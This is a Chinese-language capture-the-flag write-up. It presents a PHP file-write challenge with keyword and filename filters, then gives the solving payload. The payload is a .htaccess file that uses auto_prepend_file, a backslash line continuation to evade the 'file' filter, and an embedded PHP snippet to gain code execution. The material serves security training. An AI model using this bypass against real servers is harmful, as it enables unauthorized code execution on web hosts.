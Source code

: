 1. 源码

```php
 $files = scandir('./');                          #文件目录
    foreach($files as $file) {                    #循环目录下文件文件
        if(is_file($file)){                       #如果文件不是 index.php
            if ($file !== "index.php") {
                unlink($file);                    #删除
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {    #需要传filenamecontent
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];                             #内容过滤
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {         #文件名过滤
        echo "Hacker";
        die();
    }
    $files = scandir('./');                          
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {               #如果不是index.php则删除
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");    #写入文件。
?>
```

2. 解题

一开始想着把一句话木马写入文件，但是发现无效，index.php写不进去，其他文件可以写进去但是不能解析。

考虑写入.htaccess文件，它比较灵活，不需要重启服务器，也不需要管理员权限。其格式为php_value 名称 值，在这里写入木马（以注释的方式），然后在页面顶部加载它（auto_prepend_file）就行：

```htaccess
php_value auto_prepend_file .htaccess
#<?php phpinfo();?>
```

但是过滤了“file”这个关键字，且文件尾部自动加上了"\nHello, world"，无法正常写入，正常写入会因为文件不符合.htaccess的书写规范而报错。为了解决这两个问题，我加了转义符可以换行且转义掉\n：

```htaccess
php_value auto_prepend_fil\
e ".htaccess"
#<?php phpinfo();?>
#\
```
payload: 将上面的内容url编码一下就行

